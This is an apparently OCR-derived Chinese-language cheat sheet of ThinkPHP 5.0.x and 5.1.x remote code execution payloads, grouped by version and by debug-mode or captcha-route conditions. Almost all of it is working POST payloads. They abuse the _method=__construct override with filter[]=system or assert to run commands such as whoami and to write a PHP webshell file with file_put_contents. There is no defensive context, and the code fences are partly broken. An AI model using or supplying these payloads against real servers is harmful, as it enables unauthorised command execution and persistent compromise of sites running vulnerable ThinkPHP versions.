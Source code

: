 ****  
**debug模式**  
### 5.0-5.0.20  
  
准确的来说应该是5.0.13-5.0.20，因为13之前都会执行两次，不属于debug模式特有的  
```
POST 
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter//自5.0.8开始
```  
  
****  
**写shell**  
  
`fallbacks=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert  
```
**有captcha路由时debug无关**

POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET

### 5.0.21-5.0.24、5.1.0-5.1.1

**命令执行**

```fallback
POST 
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```  
  
****  
**写shell**  
```
```  
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('test.php','<?php phpinfo();')
```  
```
```  
  
**有captcha路由时debug无关**  
```
```  
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```  
```
```  
##   
## 未开启强制路由导致RCE  
  